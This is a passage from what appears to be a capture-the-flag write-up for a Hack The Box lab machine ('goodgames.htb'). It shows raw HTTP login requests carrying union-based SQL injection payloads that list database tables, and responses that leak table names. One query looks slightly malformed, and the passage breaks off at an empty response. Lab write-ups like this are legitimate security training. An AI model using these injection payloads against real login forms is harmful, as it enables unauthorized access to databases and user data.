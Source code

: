 ```HTML

 <div>Redirecting you to profile page...</div>
 <div class="nk-gap-3"></div>
```
 * Altered the SQL code to:
```HTML
POST /login HTTP/1.1
Host: goodgames.htb
Content-Length: 131
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://goodgames.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://goodgames.htb/signup
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

email=' union select 1,2,3,concat(table_name, ':') from information_schema.tables where table_schema = 'main'-- -&password=password
```
 * returns:
```HTML
<h1 class="text-main-1" style="font-size: 50px;">Login Successful</h1>

 <div class="nk-gap"></div>
 <h2 class="h4">Welcome blog:blog_comments:user:</h2>

 <div>Redirecting you to profile page...</div>
 <div class="nk-gap-3"></div>
```
 * Another alteration to the SQL requeset to pull from the `user` table:
 ```HTML
 POST /login HTTP/1.1
Host: goodgames.htb
Content-Length: 139
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://goodgames.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://goodgames.htb/signup
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

email=' union select 1,2,3,concat(table_name, ':') from information_schema.columns where table_name = 'user' = 'main'-- -&password=password
 ```
 * returns
 ```HTML
 ```